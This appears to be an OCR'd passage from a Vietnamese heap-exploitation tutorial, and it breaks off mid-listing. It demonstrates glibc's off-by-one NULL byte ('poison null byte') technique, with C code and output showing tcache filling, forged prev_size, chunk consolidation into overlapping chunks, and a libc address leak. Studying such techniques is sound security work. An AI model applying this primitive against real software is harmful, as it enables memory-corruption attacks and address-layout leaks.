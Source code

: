 ```cs
    // buffer overflow b by 1 NULL byte
    b[0xf8] = '\x00'; //clear prev in use of c
    *(long*)(b+0xf0) = 0x210; //We can set prev_size of c to 0x210 bytes
    
    // c have prev_in_use=0 and prev_size=0x210 so it will consolidate 
    // with a and b and it will be put in unsorted bin
    free(c);

    // now we can allocate chunks from the area of a|b|c
    char *A = malloc(0x108);
    printf("A: %p\n",A); 

    // leak libc
    printf("B content: %p\n",((long*)b)[0]);
}
```

output: 

```cs
a: 0x602010
b: 0x602120
A: 0x602010
B content: 0x7ffff7dd1b78
```

- và nó sẽ xảy ra sự hợp chất chunk từ a->b>c . sau khi malloc() lại chunk A , unsorted bin chia thành 2 phần  , 1 phần được malloc lấy và 1 phần vẫn ở unsorted-bin và chunk đó bắt đầu bằng chunk B , tuy nhiên ở đây còn 1 điểm lợi nữa là B và b sẽ trỏ cùng 1 chunk có size là 0x1f8


- cuối cùng , trông nó sẽ như sau:

```cs
#include<stdlib.h>
#include<stdio.h>
 
char* tcache1[7]; 
char* tcache2[7]; 
 
long var;
 
int main()
{
    char *a = malloc(0x108);
    char *b = malloc(0xf8);
    char *c = malloc(0xf8);
	

    printf("a: %p\n",a);
    printf("b: %p\n",b); 
    printf("c: %p\n",c);

    // make 0xf8 tcache full
    for(int i=0;i<7;i++)
        tcache1[i]=malloc(0xF8);
    for(int i=0;i<7;i++)
        free(tcache1[i]);

    // make 0x108 tcache full
    for(int i=0;i<7;i++)
        tcache2[i]=malloc(0x108);
    for(int i=0;i<7;i++)
        free(tcache2[i]);

    free(a); // a goes to an unsorted bin
```